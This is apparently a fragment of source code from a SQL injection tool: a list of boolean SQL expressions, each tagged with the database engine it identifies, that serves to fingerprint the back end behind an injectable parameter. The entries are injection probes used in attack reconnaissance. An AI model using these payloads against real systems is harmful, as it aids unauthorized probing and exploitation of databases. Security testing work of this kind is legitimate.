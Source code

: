	["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
	["connection_id()=connection_id()"                 ,"MYSQL"],
	["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
	["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
	["@@CONNECTIONS>0"                                 ,"MSSQL"],
	["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
	["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
	["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
	["ROWNUM=ROWNUM"                                   ,"ORACLE"],
	["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
	["LNNVL(0=123)"                                    ,"ORACLE"],
	["5::int=5"                                        ,"POSTGRESQL"],
	["5::integer=5"                                    ,"POSTGRESQL"],
	["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
	["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
	["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
	["current_database()=current_database()"           ,"POSTGRESQL"],
	["sqlite_version()=sqlite_version()"               ,"SQLITE"],
	["last_insert_rowid()>1"                           ,"SQLITE"],
	["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
	["val(cvar(1))=1"                                  ,"MSACCESS"],
	["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
	["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
	["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
	["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],